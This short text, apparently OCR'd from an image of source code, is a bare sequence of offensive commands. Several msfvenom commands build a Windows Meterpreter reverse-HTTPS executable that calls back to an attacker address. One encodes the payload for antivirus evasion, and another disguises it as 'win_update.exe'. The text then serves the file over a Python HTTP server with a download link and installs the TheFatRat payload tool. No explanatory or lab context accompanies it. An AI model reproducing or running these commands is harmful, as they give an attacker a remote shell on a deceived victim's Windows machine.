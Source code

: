 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -f exe -o ~/payload.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -e x86/shikata_ga_nai -i 5 -f exe -o payload.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -f exe -o ~/win_update.exe


python3 -m http.server 8080

http://192.168.1.105:8080/win_update.exe


git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh
sudo ./setup.sh
